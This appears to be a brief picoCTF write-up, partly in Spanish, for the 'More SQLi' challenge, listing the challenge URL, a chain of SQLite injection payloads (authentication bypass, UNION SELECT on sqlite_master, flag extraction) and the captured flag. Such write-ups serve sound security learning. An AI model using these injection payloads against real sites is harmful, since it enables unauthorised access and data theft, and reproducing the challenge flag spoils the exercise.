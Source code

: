 # 2 - More SQLi

## Descripcion:
* Can you find the flag on this website. Additional details will be available after launching your challenge instance.

## Solucion:
* http://saturn.picoctf.net:59496/
* 'or 1=1
* 'or 1=1;
* chancho' union select sqlite_version(),2,3;
* chancho' union select 1,2,tbl_name FROM sqlite_master WHERE type='table' ;
* chancho' union select 1,sql,tbl_name FROM sqlite_master WHERE type='table' ;
* chancho' union select 1,2,flag from more_table; 
* picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}

## Notas:
* entramos a la pagina mostramos la pagina mostrada
* ponemos el usuario y la contraseña
* verificamos que vercion es
* vemos las tablas que tiene en la ciudad
* vemos las tablas en general
* vemos la bandera
* nos da la bandera

## Referencias: